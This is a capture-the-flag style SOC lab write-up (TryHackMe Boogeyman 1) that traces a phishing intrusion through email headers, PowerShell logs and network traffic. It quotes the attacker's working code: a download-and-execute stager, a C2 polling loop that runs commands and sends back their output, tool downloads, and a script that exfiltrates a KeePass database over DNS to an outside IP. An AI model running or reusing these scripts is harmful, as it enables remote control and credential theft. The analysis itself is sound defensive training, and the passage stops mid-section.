# TryHackMe - Boogeyman 1

## Environment

- **Platform:** TryHackMe SOC Level 1 Path - Capstone Challenges
- **VM:** Ubuntu 22.04 (provided)
- **Artefacts directory:** `/home/ubuntu/Desktop/artefacts`
- **Artefacts:** `dump.eml`, `powershell.json`, `capture.pcapng`

## Lab Objective

Analyse a full attack chain executed by the Boogeyman threat group against a finance employee at Quick Logistics LLC. Starting from a phishing email, trace the intrusion through endpoint PowerShell logs and network packet capture to identify all TTPs, recover exfiltrated data, and document the complete kill chain from initial access to data exfiltration.

## Tools and Technologies

| Tool | Purpose |
|---|---|
| Thunderbird | EML file analysis and attachment extraction |
| LNKParse3 | LNK file forensics and payload extraction |
| jq | JSON log parsing and filtering |
| Wireshark | GUI-based packet capture analysis |
| tshark | CLI-based packet capture analysis and DNS extraction |
| CyberChef | Base64 and decimal decoding |
| KeePass2 | Reconstructed database access |
| xxd | Hex to binary conversion |
| base64 | Command-line decoding |


## Phase 1 - Email Analysis

### Artefact: dump.eml

The investigation begins with the phishing email received by Julianne Westcott, a finance employee at Quick Logistics LLC. Opening `dump.eml` in Thunderbird immediately surfaces the social engineering mechanics of the lure.





The email body impersonates Arthur Griffin, a Collections Officer at B Packaging Inc., referencing an outstanding invoice with a payment deadline. The lure is constructed around urgency and routine financial workflow, a finance employee processing invoices is conditioned to open attachments like this without suspicion. The attachment is a password-protected zip, with the password included in the email body, a deliberate technique to prevent automated sandbox detonation of the attachment at the email gateway.

### Header Analysis

Reviewing the header preview confirms the sender and recipient addresses and surfaces the first indicator: the sender domain.



```
From: Arthur Griffin <agriffin@bpakcaging.xyz>
To: Julianne Westcott <julianne.westcott@hotmail.com>
Subject: Collection for Quick Logistics LLC - Jan 2023
Date: Fri, 13 Jan 2023 09:25:26 +0000
```

The sender domain `bpakcaging.xyz` is a typosquat of the legitimate company name B Packaging Inc. The transposition of letters (`bpakcaging` vs `bpackaging`) is subtle enough to pass a quick visual check, particularly for a finance employee handling a high volume of vendor correspondence. The `.xyz` TLD is another indicator, legitimate business correspondence from an established supplier would typically use a commercial TLD.

Expanding to the full raw message source reveals the mail relay infrastructure used to deliver the campaign.





Two DKIM-Signature headers are present. The first, `d=bpakcaging.xyz`, is the attacker's own domain signing the outbound message, expected, since they control the domain. The second, `d=elasticemail.com`, identifies the third-party bulk email relay used to send the campaign. The `List-Unsubscribe` header corroborates this, containing an encoded reference to `elasticem`. Elasticemail is a legitimate commercial email platform being abused here for deliverability. In a real incident this is actionable, an abuse report filed with Elasticemail can result in the sending account being suspended, disrupting further phishing waves from the same infrastructure.

The `X-Sender-IP` header records the sending IP as `15.235.99.80`, and SPF passes for the `bpakcaging.xyz` domain, confirming the attacker correctly configured DNS records for the typosquatted domain to pass basic email authentication checks.

### Attachment Extraction and LNK Analysis

The attachment `Invoice.zip` is password-protected with the password `Invoice2023!` provided in the email body. Extracting the zip produces `Invoice_20230103.lnk`. Despite the `.lnk` extension, this is presented to the user with a spoofed Excel icon, making it appear as a legitimate invoice document.

Parsing the LNK file with LNKParse3:

```bash
lnkparse Invoice_20230103.lnk
```





Key findings from the lnkparse output:

- **Target binary:** `Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
- **Window style:** `SW_SHOWMINNOACTIVE` - PowerShell executes invisibly in the background
- **Icon location:** `%USERPROFILE%\Desktop\excel.ico` - the file appears as an Excel document to the victim
- **Command line arguments:** `-nop -windowstyle hidden -enc <base64_blob>`

The `-enc` flag instructs PowerShell to execute a base64-encoded command. Decoding the blob:

```bash
echo "aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==" | base64 -d
```



```
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```

This is a fileless stager. `Invoke-Expression` executes whatever PowerShell content is fetched from the attacker's staging server at runtime. Nothing beyond this stager is written to disk during the initial execution, the LNK file's only job is to phone home and execute the next stage entirely in memory. The URL `http://files.bpakcaging.xyz/update` is the first network IOC.


## Phase 2 - Endpoint Security

### Artefact: powershell.json

PowerShell Script Block Logging was active on Julianne's workstation `QL-WKSTN-5693`, capturing all executed commands. The log is provided as JSON extracted from the original `.evtx` via `evtx2json`. Parsing begins with a structure check to identify available fields:

```bash
cat powershell.json | jq -r 'keys[]' 2>/dev/null || cat powershell.json | jq '[.[0] | keys[]]'
```



The key field is `ScriptBlockText`, which stores the actual PowerShell command content for each logged event. Other contextual fields include `Timestamp`, `Hostname`, `SID`, `EventID`, `ScriptBlockId`, and `Path`.

Extracting a deduplicated, chronologically sorted view of all executed commands:

```bash
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]' | jq '{ScriptBlockText}' | sort | uniq
```



### Post-Exploitation Activity

The output maps the complete attacker session on the endpoint. Reading chronologically:

**Initial stager execution - confirmed:**
```powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```

**C2 beacon establishment:**
```powershell
$s='cdn.bpakcaging.xyz:8080';$i='8cce49b0-b86459bb-27fe2489';$p='http://';
$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{"X-38d2-8f49"=$i};
while ($true){
  $c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{"X-38d2-8f49"=$i}).Content;
  if ($c -ne 'None') {
    $r=iex $c -ErrorAction Stop -ErrorVariable e;
    $r=Out-String -InputObject $r;
    $t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{"X-38d2-8f49"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')
  }
  sleep 0.8
}
```

This establishes a C2 polling loop against `cdn.bpakcaging.xyz:8080`. The implant registers via `/8cce49b0`, polls for commands at `/b86459bb`, and POSTs command output to `/27fe2489`. The custom header `X-38d2-8f49` carries a session identifier `8cce49b0-b86459bb-27fe2489` to track the implant. The 0.8-second sleep interval produces aggressive beaconing. Two separate attacker-controlled domains are in use: `files.bpakcaging.xyz` for payload hosting and `cdn.bpakcaging.xyz` for C2.

**Enumeration tool deployment:**
```powershell
iex(new-object net.webclient).downloadstring('https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt.ps1')
iwr http://files.bpakcaging.xyz/sb.exe -outfile sb.exe
```

The attacker attempts to load Seatbelt in-memory directly from a public GitHub repository, then downloads a compiled binary `sb.exe` from their own staging server as a fallback. Seatbelt is a well-known .NET post-exploitation enumeration tool that harvests system configuration, installed software, running processes, credential material, browser data, and more.

**Host reconnaissance commands observed:**
```powershell
whoami; ps; ls; cd j.westcott; cd Documents; cd Music
.\\sb.exe -group=all
.\\sb.exe -group=user
Seatbelt.exe -group=user
```

**Sticky Notes database access:**
```powershell
iwr http://files.bpakcaging.xyz/sq3.exe -outfile sq3.exe
.\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite "SELECT * from NOTE limit 100"
```

`sq3.exe` is a portable SQLite binary. The attacker queries `plum.sqlite`, the backing database for Microsoft Sticky Notes, issuing a `SELECT * FROM NOTE` query. Users frequently store credentials, notes, and sensitive strings in Sticky Notes without understanding the data is persisted on disk in a queryable format.

**KeePass database exfiltration via DNS tunneling:**
```powershell
$file='C:\\Users\\j.westcott\\Documents\\protected_data.kdbx'
$destination = "167.71.211.113"
$bytes = [System.IO.File]::ReadAllBytes($file)
$hex = ($bytes|ForEach-Object ToString X2) -join ''
$split = $hex -split '(\\S{50})'
ForEach ($line in $split) { nslookup -q=A "$line.bpakcaging.xyz" $destination }
```

The KeePass database `protected_data.kdbx` is read as raw bytes, converted to a continuous hex string using the `X2` format specifier (two hex digits per byte), split into 50-character chunks, and each chunk transmitted as an A-record DNS query to the attacker's server at `167.71.211.113`. The data leaves the workstation disguised as standard DNS traffic, a protocol almost universally permitted outbound and rarely subject to DLP inspection at the content level.


## Phase 3 - Network Traffic Analysis

### Artefact: capture.pcapng

Opening the capture in Wireshark and reviewing the Protocol Hierarchy confirms the traffic composition observed from the PowerShell logs.



DNS accounts for 1,229 packets (the exfiltration channel) and HTTP for 1,996 packets (C2 and payload delivery). TCP dominates at 92.8% of total traffic.

### Payload Server Identification

Filtering for HTTP traffic to the file hosting domain:

```
http.host contains "files.bpakcaging"
```



Three GET requests confirm what the PowerShell logs documented: `GET /update` (initial stager), `GET /sb.exe` (Seatbelt), and `GET /sq3.exe` (SQLite binary). Following the TCP stream of any response:



```
Server: SimpleHTTP/0.6 Python/3.10.7
```

The attacker is hosting the payload server using Python's built-in `http.server` module, spun up with a single command (`python3 -m http.server`). This is a consistent red flag in incident response, no legitimate production file server uses Python's SimpleHTTP. The zero-configuration nature makes it the default choice for quick attacker staging infrastructure.

### C2 Traffic Analysis

Filtering for traffic to the C2 domain:

```
http.host contains "cdn.bpakcaging"
```



The traffic pattern reflects exactly the polling loop observed in the PowerShell logs: repeated GET requests to `/b86459bb` (command polling) interleaved with POST requests to `/27fe2489` (command output exfiltration). The C2 server responds with `Server: Apache/2.4.1`, a separate piece of infrastructure from the Python-based payload server, indicating the attacker maintains distinct staging and C2 components.

Following a POST stream, the body contains space-separated decimal ASCII values representing the command output:



Decoding with CyberChef's From Decimal recipe (Space delimiter) reveals a PowerShell directory listing of `C:\Users\j.westcott`, confirming the attacker is actively navigating the victim's filesystem via the C2 channel.

### Sticky Notes Password Recovery

Filtering POST requests and targeting the packets sent after the `sq3.exe` execution:

```
http.host contains "cdn.bpakcaging" && http.request.method == "POST"
```



Decoding the POST body from the packets in the range following the `GET /sq3.exe` request reveals the Sticky Notes database query output:

